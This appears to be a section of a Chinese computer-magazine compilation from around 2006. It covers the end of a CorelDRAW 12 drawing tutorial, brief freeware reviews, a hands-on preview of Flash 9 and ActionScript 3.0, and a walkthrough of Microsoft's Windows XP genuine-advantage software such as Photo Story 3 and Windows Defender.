- （12）单击工具箱中的“形状工具”，用鼠标右键单击闭合路径上的节点，在弹出的快捷菜单中选择“到曲线”命令，将路径转换为曲线。拖动曲线和两端节点的调整句柄，改变曲线的形状。单击“轮廓工具”，弹出扩展工具条，选择其中的“2点轮廓”工具，将眼眉线段的宽度设置为两点。选择“轮廓颜色”工具，打开“轮廓色”对话框，在“模型”中选择“RGB”选项，将“RGB”的参数调整为合适值，单击“确定”按钮完成轮廓颜色的设置。
- （13）选择椭圆，在“属性栏”中单击“转换为曲线”按钮，选取工具箱中的“形状工具”，拖动曲线两端节点的调节手柄，改变曲线的形态。用同样的方法调整另一个椭圆路径，选择两个椭圆路径，单击“填充工具”，弹出扩展工具条，选取其中的“填充对话框”，打开“均匀填充”对话框。在“模型”中选择“RGB”选项，将RGB参数调整为合适值，单击“确定”按钮，完成填充。单击“轮廓工具”，弹出扩展工具条，选择其中的“无轮廓”工具，去除轮廓线。
- （14）选择鼻子部位的椭圆，在“属性栏”中单击“转化为曲线”按钮，选取工具箱中的“形状工具”，拖动曲线两端节点的调节手柄，改变曲线的形态。单击“填充工具”，弹出扩展工具条，选择其中的“填充对话框”工具，打开“均匀填充”对话框。在“模型”中选择“RGB”选项，设置“RGB”值直到出现合适颜色。单击“确定”按钮，完成填充。单击“轮廓工具”，弹出扩展工具条，选择其中的“2点轮廓”工具，轮廓被加粗。选择其中的“轮廓颜色”工具，打开“轮廓色”对话框，在“模型”中选择“RGB”选项，设置“RGB”值直到出现合适颜色，单击“确定”按钮完成轮廓颜色的设置。此时的效果如图11所示。

#### 4. 修饰

- （1）单击工具箱中的“椭圆工具”，弹出扩展工具条，选择其中的“3点椭圆工具”，拖动鼠标，在耳朵的部位绘制出多个椭圆，作为耳朵上的斑点。在嘴的内部也绘制相应的椭圆。效果如图12所示。
- （2）选取“挑选工具”，选择椭圆，在“属性栏”中单击“转换为曲线”按钮，选择工具箱中的“形状工具”，拖动曲线两端节点的调节手柄，改变曲线的形态。的形态。单击“填充工具”，弹出扩展工具条，选择其中的“填充对话框”工具，打开“均匀填充”对话框。在“模型”中选择“RGB”选项，设置“RGB”值直到出现合适颜色，单击“确定”按钮，完成填充。单击“轮廓工具”，弹出扩展工具条，选择其中的“无轮廓”工具，去除轮廓线。这样，我们的卡通狗就绘制完成了，最终效果如图13所示。

### 四、常用工具操作讲解

#### 1. 矩形工具

- * 双击“矩形工具”可以绘制出与绘图页面大小一样的矩形。
- * 按下 Shift 键拖动鼠标，即可绘制出以鼠标单击点为中心的图形。
- * 按住 Ctrl 键拖动鼠标可绘制正方形，按下“Ctrl + Shift”组合键后拖动鼠标，则可绘制出以鼠标单击点为中心的正方形。
- * 绘制出矩形后，在工具箱中选中“形状工具”，点选矩形边角上的一个节点并按住左键拖动，矩形将变成有弧度的圆角矩形。
- * 在四个节点均被选中的情况下，拖动其中一点可以使其成为标准的圆角矩形，如果只选中其中一个节点进行拖动，就会变成不规则的圆角矩形。

#### 2. 对象编辑

CorelDRAW 12提供了一系列的工具和功能命令用于对象进行编辑，利用这些工具或命令，用户可以灵活地编辑与修改对象，以满足自己的设计需要。下面我们以橡皮擦工具为例来说明对象编辑的方法。
使用橡皮擦工具可以改变、分割选定的对象或路径，而不必使用形状工具。使用该工具在对象上拖动，可以擦出对象内部的一些图形，而且对象中被破坏的路径，会自动封闭路径。处理后的图形对象和处理前具有同样的属性。
使用橡皮擦工具的方法如下：

- （1）使用选取工具选定需要处理的图形对象。
- （2）从工具箱中的“形状”工具的级联菜单中选择“橡皮擦工具”。
- （3）此时鼠标指针变成了橡皮擦形状，拖动鼠标即可擦除拖动路径上的图形。
- （4）可以在属性栏的增量框中设置橡皮擦工具的宽度。

#### 3. 对象变换

对象变换主要是指对对象的位置、方向、大小等方面进行改变和调整，而并不改变对象的基本形状及其特征。移动对象可在选中对象后直接拖动；改变对象大小可在选中对象后使用属性栏中的缩放工具并拖动鼠标。
下面介绍两种特殊的对象变换：
镜像对象：镜像对象就是将对象在水平或垂直方向上进行翻转。在 CorelDRAW 12 中，所有的对象都可以做镜像处理。选中对象后，按住选框周围的一个控制点向对角方向拖动，直到出现了蓝色的虚线框，释放鼠标，即可得到镜像翻转的图像。
倾斜和旋转对象：选用“选取”工具，双击需要倾斜或旋转处理的对象，进入旋转 / 倾斜编辑模式，此时对象周围的控制点变成了旋转控制箭头和倾斜控制箭头。

#### 4. 文本处理

在绘图过程中，往往离不开对文本的处理。CorelDRAW 12 具备了专业字处理软件和专业彩色排版软件的强大功能。
文本在 CorelDRAW 12 作为具有特殊属性的图形对象进行处理。使用键盘输入是添加文本最常用的操作之一，操作步骤如下：

- （1）在工具箱中选择文本工具或按快捷键 F8 。
- （2）在绘图页面中适当的位置单击，就会出现闪动的插入光标。
- （3）通过键盘直接输入文字即可。

在输入文本后，可以方便地设置输入文本的相关属性。使用选取工具选定已输入的文本，即可看到文本工具的属性栏。该属性栏的设置选项非常简单，与常用的字处理软件中的字体格式设置选项类似。
使用“形状”工具选中文本时，文本处于节点编辑状态，每一个字符左下角的空心矩形框（选中时为实心矩形）为该字符的节点。拖动字符节点，即可移动该字符。按住 Shift 键，单击选中多个节点后，拖动节点即可以同时移动多个文本。

#### 5. 对象的群组与造型

从字面上来看“群组”与“组合”的功能似乎有点相似，但它们的使用结果却大相径庭。
使用“群组”命令可以将多个不同的对象结合在一起，作为一个整体来统一控制及操作。群组的使用方法也很简单：

- （1）选定要进行群组的所有对象。
- （2）单击菜单命令“排列”→“群组”；或单击属性栏中的“群组”按钮，即可群组选定的对象。
- （3）群组后的对象作为一个整体，当移动或填充某个对象的位置时，群组中的其他对象也将被移动或填充。

注意：群组后的对象作为一个整体还可以与其他的对象再次群组。单击属性栏中的“取消群组”和“取消所有群组”按钮，可取消选定对象的群组关系或多次群组关系。
使用“组合”功能可以把不同的对象合并在一起，完全变为一个新的对象。如果对象在组合前有颜色填充，那么组合后的对象将显示最后选定的对象（目标对象）的颜色。它的使用方法与群组功能类似。

#### 6. 交互式工具组

为了最大限度地满足用户的创作需求，CorelDRAW 12 提供了许多用于为对象添加特殊效果的交互式工具，并将它们归纳在一个工具组中。灵活地运用调和、轮廓、封套、变形、立体化、阴影、透明等交互式特效工具，可以使自己创作的图形对象异彩纷呈、魅力无穷。
调和是矢量图中的一个非常重要的功能，使用调和功能，可以在矢量图形对象之间产生形状、颜色、轮廓及尺寸上的平滑变化。使用交互式调和工具可以快捷地创建调和效果：

- （1）先绘制两个用于制作调和效果的对象。
- （2）在工具箱中选定“交互式调和工具”。
- （3）在调和的起始对象上按住鼠标左键不放，然后拖动到终止对象上，释放鼠标即可。

### 五、熟能生巧——制作“休闲吧”招贴画

任何复杂的对象都可以分解成简单的几何图形。通过上面的讲解，我们已经初步掌握了在 CorelDRAW 12 中制作简单几何图形的方法。下面让我们来制作一个完整的作品：“休闲吧”招贴画。由于这是一幅要印刷的作品，故我们采用 CMYK 色彩模式进行创作。

- （1）新建一个工作文档。单击工具箱中的“矩形”工具按钮，在页面中绘制一个长 277mm、宽 190mm 的矩形（如图 14 所示）。然后将其填充为浅黄色（C0,M0,Y10,K0）。
- （2）在黄色矩形的左上角绘制一个轮廓线为“无”，颜色为深绿色（C40,M0,Y100,K0）的矩形，作为招贴画的报头区域。色为天蓝色 (C55,M3,Y2,K0) 的矩形。
- （3）用相同方法再创建8个相同大小的矩形，分别填充为不同的明亮颜色，如图15所示。适度的色彩对比可产生不同效果的视觉观感，从而使画面更具有表现力。
- （4）下面绘制海报内的另一个主体物——金鱼。这里请使用类似于绘制卡通狗的方法绘制一条金鱼。
- （5）复制6组金鱼图形，按照如图16所示排列。
- （6）使用“挑选”工具选中金鱼，执行“效果” → “图框精确剪裁” → “放置在容器中”命令，将金鱼置于一个小矩形中，如图17所示。
- （7）选择菜单栏中的“效果” → “图框精确剪裁” → “编辑内容”命令，使对象进入编辑状态。将图形放大并移动。调整完毕后，选择菜单栏中的“效果” → “图框精确剪裁” → “完成编辑这一级”命令，停止编辑内容，如图18所示。
- （8）同样使用图框精确剪裁的方法，编辑另外两个图形内容。
- （9）添加白色装饰线。选择工具箱中的“图纸”工具，在属性栏的“图纸行数和列数”数值框中分别输入3，在页面中绘制一个与9个彩色矩形大小相等的网格。
- （10）双击状态栏中的轮廓图标，弹出“轮廓笔”对话框。设置网格轮廓“颜色”为白色；“宽度”为1mm；样式为虚线，然后单击“确定”按钮关闭对话框。
- （11）选择工具箱中的“矩形”工具，在黄色矩形的底部绘制一个小矩形，填充为黑色。设其轮廓为“无”，用以衬托文字内容，如图19所示。
- （12）至此，海报已基本完成，最后使用“文字”工具添加海报的文字宣传内容，效果如图20所示。

### 六、文件的输入与输出

CorelDRAW 12支持很多的流行文件格式，如AutoCAD (.dxf 与.dwg) 与比例化矢量图形 (.svg)。用户可以在 CorelDRAW 12 中，输入多种类型的文件，也可以将绘制的图形以多种形式输出。
在 CorelDRAW 12 中，通过选择“文件”→“导入”，可以将其他非 CorelDRAW 12 格式的文件输入到 CorelDRAW 12 文档中。

- （1）选择菜单“文件”→“导入”命令，打开如图 21 所示的对话框。
- （2）如果需要的话，可以在“文件类型”下拉列表中选择希望导入的文件类型。选定文件后，将在“图像大小”栏中显示所选图像的像素数和图像的颜色数，在“文件格式”栏中显示所选文件的文件格式，在“注释”文本框中可键入与所选图像相关的文字。
- （3）单击“文件类型”下拉列表框左侧的下拉按钮，在下拉列表中可以选择文件输入的方式。列表中各选项的意义如下：
    - * 选择“全图像”导入方式，可以将所选文件完全导入。
    - * 选择“裁剪”导入方式，当单击“导入”按钮后，将弹出“裁剪图像”对话框。利用该对话框，可以对要输入的图像进行裁剪编辑。
    - * 选择“重新取样”导入方式，当单击“导入”按钮后，可在弹出的“重新取样图像”对话框中，对图像的大小和分辨率进行重新设置。
- （4）选择好文件后，单击“导入”按钮，关闭导入对话框，此时将光标移至页面适当位置单击并拖动确定图像尺寸。释放鼠标按钮，即可将所选图像输入到当前文档中。

导出功能和导入功能相反，利用它可以将用户绘制的图形或文本以不同的文件类型和格式输出并保存到磁盘中。其方法如下：

- （1）选择“文件”→“导出”命令，打开“导出”对话框，如图 22 所示。
- （2）在该对话框中设置要输出文件的名称、输出类型及所要保存的磁盘或文件夹位置。
- （3）单击“保存类型”下拉列表框，可在显示的下拉列表中选择输出文件的压缩类型。
- （4）设置好后，单击“导出”按钮，即可将当前页面中的对象输出。

注意：如果要将工作窗口中的部分图形对象输出，则可先选取该部分对象，再选择“文件”→“导出”命令，并在打开的对话框中选中“仅有选取区域”复选框即可。

### 七、打印

将文件打印出来，是输出文件的一种最普遍的手段。在一般情况下，打印一个文件有两个必要步骤：打印设置与打印预览。下面我们就来详细介绍。

#### 1. 设置打印机相关参数

所谓“打印设置”就是对打印机的属性以及其他各种打印事项进行设置，方法如下。

- （1）选择“文件” → “打印设置”，打开打印设置对话框，如图 23 所示。该对话框显示了有关打印机的一些相关信息，如名称、状态、类型、位置以及备注等。
- （2）单击“属性”按钮，将打开打印机属性对话框。针对不同的打印机，该对话框的格式及参数也有所不同，但都包括诸如打印纸张、打印份数、打印质量等基本设置。
- （3）设置好打印机的相关参数后，单击“确定”按钮即可返回打印机设置对话框中。在该对话框中单击“确定”按钮，即可使设置生效并将该对话框关闭。

#### 2. 打印预览

打印预览可以在打印前观察打印页面内的图形效果是否满意。在打印机设置完毕后，选择“文件”→“打印预览”，即可在打印预览窗口中对所需打印对象的效果进行预览，如图 24 所示。在打印预览窗口中，只有落在虚线框内的图形才可以被打印出来。
此外，利用打印预览窗口的标准工具栏中的各种按钮，可以快速地设定一些打印选项，它们的功能如下：
* 单击“打印样式”下拉式列表按钮，在显示的列表中可以选择适用的打印类型；单击“将打印样式另存为”按钮，可将目前打印选项存为一个新的打印类型；单击“删...## 3. 打印

如对预览窗口中的预览效果满意，可选择“文件”→“打印”或单击工具栏中的“打印”按钮，此时系统将打开“打印”对话框。具体打印方法参照打印设备的不同有所不同，在这里不再叙述。

综述：以上向用户简单介绍了 CorelDRAW 12 的操作方法和步骤，朋友们在跟着操作步骤完成实例的过程也就是学会 CorelDRAW 12 简单应用的过程。然而 CorelDRAW 12 的世界才刚刚打开一个大门，美丽的图形世界还在前方等待着用户去开启。只要记住任何绘图工具和各种效果的实现都是为了创作作品服务，便一定能够用 CorelDRAW 12 创作出满意的作品！ ■

## 免费软件千里马——功能卓越的特色工具

#### 1. 译扩展名 V5.10

软件下载地址：http://www2.skycn.com/soft/20026.html

软件亮点：是一款专业查询扩展名的软件，能够查询操作系统中所见的扩展名、查询常见的硬盘格式。

软件使用：软件的用法自然很简单，只需要将扩展名输入，然后单击查询按钮即可在右下方窗口中查询到详细信息，以及适合打开此类扩展名文件的程序。

总的来看，这款软件的作用还是很大的，在平时使用中，往往会遇到不少不知名的文件，利用此款软件即可轻易查询。这对于初学者来说，可以有效防范病毒，还可以学到不少文件扩展名的知识。

### 2. USB 控制大师 2007

软件下载地址：http://www.ljz888.com/

软件亮点：能够禁止或限制用户使用电脑上的 USB 存储设备的工具，包括 U 盘、USB 硬盘、USB 软盘、USB 光驱等。

软件使用：软件经过简单的安装后并不马上出现主界面，需要按“Ctrl+Alt+回车键”才能激活，激活后还需要输入预设的密码“123”才能进入。除了这项主要功能外，软件还可以禁止或允许用户使用系统的某些高级设置，如禁止显示桌面图标等。

总的来看，软件提供的 USB 设备保护功能相当完备，软件在启动时也需要输入密码才能进入，安全性比较高。

#### 3. 超级右键菜单 V1.30

软件下载地址：http://www.mydown.com/soft/194/194572.html

软件亮点：这是一款右键菜单增强工具，主要针对桌面图标的整理。

软件使用：启动软件后，可以看到“超级右键数据添加”选项卡，软件已经附带了自身的程序名在右键菜单中。如果要新增项目，可单击“浏览”按钮从硬盘中找到相应的主程序名，然后为程序取名，并单击“保存”按钮。设置完成后返回桌面，在“超级右键菜单”图标上单击鼠标右键即可启动。■

## 抢先体验 Flash 9.0

文 / TMG gqy

Flash 是近几年来非常流行的矢量动画制作软件，因具有强大的矢量图像处理技术和代码编程技术而颇受人们的喜爱。日前，Adobe 公司发布了其最新版本 Flash Professional 9 ActionScript 3.0 Preview，这是 Flash 9.0 的预览版，估计要到 2007 年才会推出正式版本。在这个版本中最为显著的改变就是增加了对编程语言 ActionScript 3.0 的支持，而界面和 Flash 8.0 相比并没有任何改动。Flash 9 预览版仅仅为我们提供了一个开发 ActionScript 3.0 的环境，相信在正式版中一定还有更多的改变和新增功能。下面就让我们一起来体验使用 Flash 9 预览版的新功能。

### 一、安装 Flash 9.0

双击 Flash 9.0 安装文件，就会出现如图 1 所示的安装界面。从图中我们可以看到，这里有几个按钮：“Yes”、“Yes to All”、“No”、“No to All”和“Cancel”。由于电脑里面存在 Flash 8，所以这里我们选择 “Yes to All” 进行覆盖安装。软件的安装过程和普通软件的安装一样。不知道你注意到没有，软件已经由我们非常熟悉的 Macromedia Flash 变成了 Adobe Flash，据说是因为两家公司合并成为一家的原因。Adobe 公司以其 Photoshop 等图像处理软件闻名于世，不知道两家公司的合并会给我们带来什么样的惊喜。还是让我们看看在 Flash 9.0 中有没有体现出来 Adobe 公司强大的图像处理能力吧。

图 1

### 二、试用 Flash 9.0

软件安装完成以后，假如我们选择了让软件在桌面安装一个快捷方式的话，我们就会在桌面看到一个图标。双击快捷方式图标，启动 Flash 9.0，弹出它的加载画面，加载完成以后，我们会看到它的工作界面，如图 2 所示。从图中我们可以看出，它的菜单栏和工具栏与我们以前的版本没有什么差别。上面是菜单栏；左面是工具栏；中间是欢迎界面；右面是各类面板，可以进行折叠；下面是对象栏和属性栏。整个界面就是这么多内容，继续延续以前版本的简洁风格，说明此软件仍然强调实用性。

在欢迎界面中，可以看到一个 “Open” 选项，单击此处，就会弹出一个对话框，如图 3 所示。从这个对话框中可以选择要打开的文件，默认的文件类型是 “*.as”、“*.asc”、“*.fla” 和 “*.flp”。假如我们要打开的文件类型不是这几种，可以单击“文件类型”下拉列表框，在弹出的对话框中可以看到包含了十分丰富的文件类型。

图 2

图 3

同时，在 Flash 9.0 中可以直接新建许多种文件，像比较大的项目组 “Flash Project”、我们常用的 “Flash Document” 和单纯的代码文件 “ActionScript File” 等。如图 4 所示，在 “Create New” 选项下面的列表中列出了所有的文件类型。Flash 9.0 也提供了丰富的模板功能，在 “Create from Template” 选项下面的列表中，包含了很多种模板。利用模板，开发人员可以省去许多重复的步骤，极大地提高了工作效率。

图 4

现在我们新建一个 Flash 文档，会出现一个如图 5 所示的界面。看了它的界面和工具，发现它并没有太大的变化。到底它与 Flash 8.0 有什么不同呢，难道它并没有提出新的功能。应该不能，因为软件每个版本的升级都会有一些改动的，那么到底改动在哪里呢，让我们继续寻找。Flash 9.0 的第一个新功能就是播放器的升级。我们以前用的版本是 Flash Player 8.0，现在已经升级为 Flash Player 9.0 了。上升到此版本后，里面增加了一个虚拟机，据说可以使播放速度得到大幅度的提高。我们可以通过单击菜单栏的“文件”选项，找到它的发布设置，会出现一个对话框。单击“Flash”标签，会出现如图 6 所示的界面。在这里我们会发现播放器版本已经是 9.0 了，点击下拉按钮，可以找到以前的播放器版本。这就是 Flash 9.0 的第一个新功能。

图 5

图 6

Flash 9.0 的第二个新功能就是 ActionScript 代码（简称“AS 代码”）的升级，就是说它的编程语言由 2.0 上升到了 3.0。从图 6 中的“ActionScript”下拉列表框，我们可以看到版本已经是 3.0 了，从最初的 1.0 到现在的 3.0，随着每一次版本的升级，其功能都有所增强，同时其语言的规则也会更加规范。这次的升级也不例外，这样既提高了它的功能，又增强了它的规范性，有利于更好地学习与掌握。

图 7

我们了解了代码的升级以后，现在我们来看它的另外的一个新的功能——它能够把代码和文件分开来存放。以前我们写代码的时候，只能够把代码写在时间线上或者某一个元件内。到了 9.0 这个版本，可以把代码专门写在一个文件内，然后存放在相同的目录内，这样的话，就可以对他们进行调用。我们可以通过点击“ActionScript”下拉列表框后的“Settings”按钮进行查看，如图 7 所示。在“Document class”文本框中可以输入文件的名称，点击“Classpath”下面的按钮还可以进行路径的增加和选择。这是它的又一个新增功能。

这里要注意的是文件路径和文件名。文件的路径一定要和 Flash 文件保存在一个文件夹下，所以我们要格外注意保存的位置。另外文件的名称也不是随意起的，要和我们的影片的类保持一致。如图 9 所示，文件名称保存为“jy”,与代码第三行的类保持了一致。

```
1 package {
2   import flash.display.MovieClip;
3   public class jy extends MovieClip {
4     public var barblue:barblue;
5     public function jy() {
6       // code
7     }
8   }
9 }
```

上面的工作完成之后，我们还需要一个 Flash 文件，我们可以通过点击菜单栏的文件菜单，会弹出如图 10 所示的对话框，选择“Flash Document”选项，然后点击“确定”按钮进行确认。

图 10

这样就建立了一个 Flash 文件，然后我们可以通过按“Ctrl”键来打开它的库，打开后的效果如图 11 所示。在 9.0 版本的库中，包含了丰富的元素。通过单击菜单栏的“Window”菜单下的“Common Libraries”选项，可以打开通用的库元素。从中选取“Buttons”，然后选取一个按钮直接拖动到窗口左边的库中，这样就建立了一个按钮。需要特别注意的是，按钮的名称和代码文件中对象的名称要保持一致。在本例中，按钮名称就叫做“barblue”，和代码文件第四行的“barblue”是一致的。

图 11

我们可以通过右击该按钮，打开它的属性面板，如图 12 所示。在属性面板中，我们可以设置它的名称，这里设置为“barblue”。假如我们设置的名称和代码文件的名称不一致的话，系统就会弹出警告对话框，提醒我们名称与代码文件中的名称不一致。

图 12

好了，在初步体验了 Flash 9.0 的新特性后，我们可以这样认为：它的这些新功能主要就是针对编程部分。从 2004 版本到 8.0 版本，再到今天的 9.0 版本，其他的功能变换不大，但是编程的功能在不断地得到提高。这就给我们一个疑问：我们是否有必要学习 Flash 的新版本？其实我们可以从两大部分来说明，即动画部分和编程部分。如果你侧重于动画部分，很少用到其进行编程，那么 Flash 8.0 与 Flash 9.0 可以说没有什么区别。假如你要进行编程，比如说进行游戏编程，或者进行其他的编程，那么就有必要学习 Flash 9.0 了。根据自己的特点，不要盲目追求最新才是正确的选择。记住：只有适合自己的，才是最好的！

## 玩转“Windows XP 正版增值计划”

文 / 狮子王

为了打击盗版软件，保证自己的利益，微软从 2004 年 10 月开始推出一系列正版增值计划，其中 Windows XP 正版增值计划最为引人注目，该计划的内容概括起来就是：对于盗版用户，可通过一定的渠道或方式（比如填写一些表格），以比较低的价格购买正版授权；对于正版 Windows XP 的用户，无论其身处何地都能享受到免费的在线升级补丁包和诸如 Photo Story 3 For Windows 时尚主题包，以及实用的农历日历等免费软件。

作为此次计划的一部分，微软推出了“正版验证”程序，无论是网上自动更新系统，还是下载免费软件或资源包，都将强制被要求验证系统是否为正版。那么，微软为正版用户提供的都是哪些免费软件呢？这些软件都有啥特色？下面我们将一一亲密接触！

### 一、通过正版验证，获得免费增值软件

微软为了确保只有正版用户才能下载到增值软件，特别开发了一个进行正版验证的小程序，并且以 ActiveX 插件的方式放置到了网页中，如果你想下载到微软的那些有意思的小软件，就必须运行该程序进行正版的验证，否则无法获得下载地址。

打开网页 http://www.microsoft.com/genuine/offers/default.aspx?displaylang=zh-cn，在该网页的最下部列出了微软提供的所有增值软件。当点击“订购”时，就会弹出插件安装提示窗口（见图 1），点击“安装”按钮，将自动安装和验证，验证通过后通过“下载”按钮就可下载到需要的增值软件了。

图 1

提示：由于正版验证插件的性质，可能被某些第三方屏蔽插件的软件所屏蔽，因此如果无法运行该插件，请将这些软件暂时关闭，并一定要注意浏览器地址栏下方的安全警告提示条。

### 二、Photo Story 3 For Windows

Photo Story 3 是微软推出的第一个免费的正版增值计划软件，利用它，用户不仅可以对数码照片进行诸如修饰、裁剪、去红眼和旋转等方面的调整，最重要的是可以将照片添加各种特效，并且配上背景音乐保存为电子相册！现在我们就来将一张照片制作成图片小电影。

第一步：依次点击“开始→程序→Photo Story 3 for Windows”运行该程序，在欢迎页上选中“开始新的故事”，然后单击“下一步”。

第二步：在“导入并排列图片”界面中，通过“导入”按钮加入自己喜欢的照片。现在笔者想实现电影中镜头移动、拉近/远的效果，就将同一张图片导入了三次。单击“下一步”（见图 2）。

图 2

提示：在该界面中，还可以通过预览窗口下方的旋转、除红眼、校正色阶按钮来对图片进行再加工，并可以通过“编辑”来对图片进行裁切。

第三步：在“在图片中添加标题界面”中，在右侧的文本框中输入合适的标题，并通过上面一排文字设置按钮来进行调整，比如更改字体与颜色、文字位置；在“效果”的下拉菜单中，选择喜欢的渲染方式对图片进行加工。单击“下一步”（见图 3）。

第四步：在“叙述图片并自定义动画”页面中，首先选中第一张图片，点击“自定义动画”，然后在“自定义动画”窗口中选中“指定动画的起始位置和结束位置”复选框，拖动图片上的调整滑块改变其大小。在“起始位置”窗口中用鼠标拖动矩形框到任意一个想要的位置，在“结束位置”窗口中将图片拖到结束显示时的停止位置。另外，如果想实现平移效果，可以勾选“将结束位置和起始位置设成同一处”，同时切换到“过渡”标签页，取消“通过过渡转至当前图片”即可实现连续显示的效果。最后单击“保存”按钮（见图 4）。

图 3

图 4

第五步：点击图标切换到下一幅图片，首先选中“将上一幅图片的结束位置设置为动画的起始位置”复选框，然后在“结束位置”设置最终的显示位置，同样在“过渡”标签页中清除“通过过渡转至当前图片”。这样就可以实现与第一幅图片间的连续播放。单击“保存”按钮。

第六步：切换到最后一幅图片，同样先选中“将上一幅图片的结束位置设置为动画的起始位置”复选框，然后双击“结束位置”窗口中的图片实现最大化，这样当播放结束的时候出现的就是全景图了，清除过渡效果后点击“保存”，然后“关闭”对话框，回到“叙述图片并自定义动画”页面。

提示：如果想制作电子相册，可以在“过渡”标签页中选择各式各样的过渡效果来美化，比如淡入淡出、集中、发散等效果。

第七步：点击“下一步”进入“添加背景音乐”界面中，这里既可以通过“选择音乐”导入自己喜欢的音乐文件，也可以点击“制作音乐”按钮来选择不同风格的内置音乐。如果感觉选择的音乐不太合适，可以通过“删除音乐”来清除（见图 5）。

图 5

第八步：点击“下一步”，在“保存故事”界面中，首先选择保存的方式，我们一般选择“保存故事以便在计算机上播放”，并通过“浏览”按钮选择一个合适的存放位置。另外，如果你的机器性能足够强劲，可以通过“设置”按钮来选择更大的分辨率或高质量的画面参数，当然这样会延长保存时间并加大保存后的文件体积。单击“下一步”就可在存储位置得到最终的 WMV 文件了（见图 6）。

图 6

### 三、免费多时区时钟、农历、万年历

想知道你生日的农历时间吗？想知道现在伦敦、纽约、巴黎、华盛顿是几月几日几点几分吗？快来使用正版增值软件包中另一个小工具：Microsoft Chinese Date & Time。它不仅可以显示农历和公历，同时也可以使用它来得知四个位于不同时区的城市的当前时间和日期，而且还可以根据自己的需要进行随意的定制，同时它的使用方法超简单！

图 7

如果想查看万年历或更改配置，只要双击该图标即可弹出配置窗口。在“日期”栏中可以通过上下箭头来选择不同的年月进行查询，该软件支持从 1960～2099 年的所有公历、农历、星期查询；如果只想显示公历，可以在“日历”栏中进行切换，而当你查询完毕万年历后，想“回到”今天，只要点击“今天”按钮即可。

在该界面的右侧显示的就是我们前面提到的多时区时钟，默认是北京、伦敦、西雅图、纽约四个城市的时间等相关信息。如果要想查看其他地区的时间，只要在这四个城市中双击任意一个图标打开配置窗口。在“城市”中输入想显示的城市名称，在“时区”中选择该城市所在的时区，“确定”后就可以马上显示出来了（见图 8）。

图 8应用·软件

《电脑爱好者》合订本·附录分册

提示：有了该日历软件，如果感觉系统自带的“时钟”图标占地方，可以用鼠标右键单击系统任务栏，去掉“显示时钟”就可以了。

### 四、用Microsoft Match-Up锻炼记忆力

大家在网上是否玩过翻牌找出相同画面的拼图游戏？这些小游戏一般都会出现在IT厂商推广新产品时的有奖活动中。玩这种游戏需要具有较强的记忆力，如果感觉自己的记忆力不是很好可以锻炼一下。这不，微软也在正版增值计划软件包中提供了一个相类似的小游戏——Microsoft Match-Up。有了它，闲暇时就可以借此来放松一下心情，顺便锻炼自己的记忆力。

安装下载Microsoft Match-Up后，双击桌面上的图标打开游戏，现在就可以使用鼠标左键点击各个卡片来查看和寻找相同的图片了。当找到相同图片时，这两张图片会自动消失，直至找到全部相同的图片并全部消失后游戏结束。使用时间最少的玩家将成为最后的赢家。

刚开始运行时，你也许认为这个游戏很简单，只有几张图片而很好找到。其实，随着不断地“过关”，游戏也会自动增加图片的数量，当然难度也随之增加。要想知道自己的排名情况到底如何，可以点击“游戏”菜单下的“英雄榜”来查看。

玩的时间长了，是不是认为一成不变的卡片图案和背景图片很单调？没关系，只要点击“游戏”菜单下的“首选项”，然后在想要改变的图案上单击鼠标左键，在弹出菜单中选择“更改图片”，利用“打开”窗口找到自己喜欢的图片即可。当想要恢复默认的图片时，可以点击弹出菜单中的“恢复默认图片”（见图9）。



### 五、Microsoft Video Screensaver——屏保也能播电影

为了让屏保彰显个性，很多朋友都挖空心思地去将Flash动画、自己照片、电影剪辑等等图像文件制作成屏保。在以前，要想将视频文件做为屏保程序显示，都需要第三方软件的支持。而现在，微软推出了一款程序“Microsoft Video Screensaver”，利用它可以轻松地将电影剪辑、家庭视频作为屏幕保护程序，可以为你的朋友和家人带来欢乐。

下载并安装完毕后，在桌面空白处单击鼠标右键选择“属性”，在“屏幕保护程序”选项卡中的下拉菜单中选择“Video Screensaver”，即可使用此程序了。

在“屏幕保护程序”选项卡中点击“设置”，在弹出窗口中按如图10所示进行选择，并通过“浏览”按钮导入含有WMV格式、AVI格式视频文件的文件夹，稍等即可预览到画面了。



Video Screensaver自带了一段表现北京一天的视频，可以感受古都晨昏四韵，聆听时光流过的声音，不过还是快把喜欢的视频文件加入吧，空闲时就会自动为你播放，完全可以当作播放器来用，再也不用担心播放过程中跳出屏幕保护程序了。

### 六、Windows Defender——木马、间谍一起抓

为了应对网络中泛滥的木马、间谍等恶意软件对系统安全的挑战，微软也推出了反木马、间谍软件的专用程序——Windows AntiSpyware，而现在又对其进行了升级，并且更名为“Windows Defender”。虽然依旧是测试版，但其具备的某些功能却让我们惊喜不已，下面我们就来看个究竟。

#### 1. 基本设置

在主界面中依次点击“Tools → Settings → General setting”，在“Automatically scan my computer”（自动扫描）中勾选全部选项，这样在机器空闲时，软件会自动扫描，并且当发现可疑文件时，按照事先设定的动作进行处理；Windows Defender将扫描到的可疑文件分为“高、中、低”三个等级，在“Ddefault Actions”（默认动作）中可针对不同等级的威胁自动执行“提示、忽略、删除”等三种不同的操作，但安全起见，建议大家全部选择“Definition recommended”（推荐提示）；在“Real-time protection options”（实时保护选项）中勾选全部选项，这样Windows Defender就可以随系统自启动，并且实时监控针对注册表、IE下载及加载项、系统配置的修改；如果不想让Windows Defender扫描某些文件或文件夹，在“Advanced options”（高级选项）勾选两选项后，通过“Add”按钮将该文件或文件夹导入即可；如果你的机器中存在多用户，为了使每个用户都在Windows Defender的保护之下，在“Administrator options”（系统管理员选项）中选中两个选项，最后点击“Save”按钮保存（见图11）。

#### 2. 自定义扫描范围

当需要扫描系统时，除了直接按下“Scan”，还可以自定义扫描的范围：点击向下箭头展开并选择“Custom Scan”，在如图12所示窗口中既可以选择快速或完全扫描，也可以通过“Select”按钮指定具体的分区或文件夹（见图12）。




#### 3. 详细查看进程

鉴于系统自带的任务管理器功能有限，很多用户都采用第三方的进程查看工具，而现在用Windows Defender也可以查看后台程序，且功能绝对会令你大吃一惊：在“Tools”选项卡中点击“Software Explorer”（软件管理器），在“Category”（类型）里通过下拉菜单可以分别查看随系统自启动当前运行的程序、当前访问网络的程序、正在使用的系统网络组件等不同分类的进程。比如，很多人对进程中总出现的svchost.exe程序很惶恐，总怕其中有“假冒”进程。就是正常进程，也难以了解到底是干什么用的。现在我们用Windows Defender就可以查看：切换到“Currently Running Program”（当前运行程序），找到并选中标有“Host Process”关键词的进程项，在右侧的窗口中就可以看到该进程所对应程序的最详尽的信息，对于svchost.exe程序，还可以看到它的用途（见图13）。



提示：在每个类型进程的查看窗口中，在界面最下方都有结束、刷新、调用任务管理器等按钮，可以随时针对可疑程序采取措施。

